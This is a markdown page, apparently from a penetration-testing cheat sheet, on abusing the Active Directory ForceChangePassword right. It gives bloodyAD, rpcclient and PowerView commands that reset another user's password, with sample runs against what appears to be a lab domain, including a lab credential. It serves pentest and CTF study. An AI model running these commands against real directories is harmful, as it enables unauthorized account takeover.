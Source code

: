 ```yaml
---
title: "ForceChangePassword"
date: 2024-7-18
tags: ["Forcechangepassword", "Powerview", "Active Directory", "Windows", "bloodyAD"]
---
```


### Change target user password (From Linux)

{{< tab set1 tab1 >}}BloodyAD{{< /tab >}}
{{< tab set1 tab2 >}}rpcclient{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
# Pass password or :hash into PASSWORD
bloodyAD -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --host <DC> set password '<TARGET_USER>' '<NEW_PASSWORD>'
```

```console {class="sample-code"}
bloodyAD -d object.local -u oliver -p 'c1cdfun_d2434' --host jenkins.object.local set password smith 'Test1234'
[+] Password changed successfully!
```

<small>*Ref: [bloodyAD](https://github.com/CravateRouge/bloodyAD)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
rpcclient -U '<DOMAIN>/<USER>%<PASSWORD>' <TARGET> -c 'setuserinfo2 <TARGET_USER> 23 <NEW_PASSWORD>'
```

```console {class="sample-code"}
$ rpcclient -U 'object.local/oliver%c1cdfun_d2434' 10.10.11.132 -c 'setuserinfo2 smith 23 Test1234'
```

{{< /tabcontent >}}

### Change target user password (From Windows)

{{< tab set2 tab1 >}}Windows{{< /tab >}}
{{< tabcontent set2 tab1 >}}

#### 1. Import PowerView

```console
. .\PowerView.ps1
```

```console {class=sample-code}
*Evil-WinRM* PS C:\programdata> . .\PowerView.ps1
```

#### 2. Create a cred object (runas) \[optional\]

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
```

```console
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
```

#### 3. Change Target User Password

```console
$password = ConvertTo-SecureString '<NEW_PASSWORD>' -AsPlainText -Force
```

```console {class=sample-code}
*Evil-WinRM* PS C:\programdata> $password = ConvertTo-SecureString 'Test1234' -AsPlainText -Force
```

```console
Set-DomainUserPassword -Identity <TARGET_USER> -AccountPassword $password -Credential $Cred
```

```console {class=sample-code}
*Evil-WinRM* PS C:\programdata> Set-DomainUserPassword -Identity gibdeon -AccountPassword $password
```

{{< /tabcontent >}}
